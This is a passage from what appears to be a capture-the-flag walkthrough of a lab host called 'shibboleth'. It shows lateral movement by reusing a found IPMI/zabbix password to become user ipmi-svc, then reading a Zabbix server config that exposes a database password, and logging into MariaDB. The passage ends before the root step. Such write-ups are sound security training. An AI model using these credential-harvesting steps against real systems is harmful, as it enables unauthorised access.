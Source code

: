 There is only one user which has a directory in `/home` `ipmi-svc`.

```
zabbix@shibboleth:/$ ls -la /home/
total 12
drwxr-xr-x  3 root     root     4096 Oct 16 12:24 .
drwxr-xr-x 19 root     root     4096 Oct 16 16:41 ..
drwxr-xr-x  4 ipmi-svc ipmi-svc 4096 Nov 13 20:42 ipmi-svc
```

Using the earlier found IPMI/zabbix password we are able to switch user and can grab the first flag.

```
zabbix@shibboleth:/$ su ipmi-svc
Password:
ipmi-svc@shibboleth:/$ wc -c /home/ipmi-svc/user.txt
33 /home/ipmi-svc/user.txt
```

# Root

Checking the `/etc/zabbix/zabbix_server.conf` it leaks the credentials for the database access.

```
ipmi-svc@shibboleth:/$ cat /etc/zabbix/zabbix_server.conf | grep -v ^# | grep .
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
Timeout=4
AlertScriptsPath=/usr/lib/zabbix/alertscripts
ExternalScripts=/usr/lib/zabbix/externalscripts
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000
StatsAllowedIP=127.0.0.1
```

Logging into the database we see that mariaDB version `10.3.25` is installed.

```
ipmi-svc@shibboleth:/tmp$ mysql -u zabbix -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1287
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```
